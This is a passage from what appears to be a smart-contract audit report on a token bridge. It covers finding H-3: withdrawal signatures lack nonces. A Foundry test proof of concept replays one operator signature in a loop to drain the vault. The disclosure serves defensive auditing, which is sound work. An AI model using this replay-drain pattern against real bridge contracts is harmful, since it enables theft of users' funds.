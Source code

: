 > H-2: We see that while it deals with **stealing** as well, the issue isn't strictly similar. The problem here essentially arises from the vault always having maximal approvals. This bug, therefore, isn't solely dependent on the thieving user, but also on the software giving unwarranted permissions.

---

### [H-3] Lack of replay protection in `withdrawTokensToL1` allows withdrawals by signature to be replayed

**Description:** Users who want to withdraw tokens from the bridge can call the `sendToL1` function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.


**Proof of Concept:** Include the following test into `L1TokenBridge.t.sol` file:

```javascript

function testSignatureReplay() public {
        address attacker = makeAddr("attacker");
        address attackerInL2 = makeAddr("attackerInL2");

        // assume the vaults already holds some tokens
        uint256 vaultInitialBalance = 1000e18;
        uint256 attackerInitialBalance = 100e18;

        deal(address(token),address(vault),vaultInitialBalance);
        deal(address(token),address(attacker),attackerInitialBalance);

        // An attacker deposits tokens to the L2
        vm.startPrank(attacker);
        token.approve(address(tokenBridge),type(uint256).max);
        tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitialBalance);

        // Signer is going to sign the withdrawal
        bytes memory message = abi.encode(address(token),0,
                               abi.encodeCall(IERC20.transferFrom,(address(vault),  attacker ,attackerInitialBalance)));

        (uint8 v, bytes32 r,bytes32 s) = vm.sign(operator.key,MessageHashUtils.toEthSignedMessageHash(keccak256(message)));

        while(token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
        }

        assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
        assertEq(token.balanceOf(address(vault)), 0);
        
    }

```
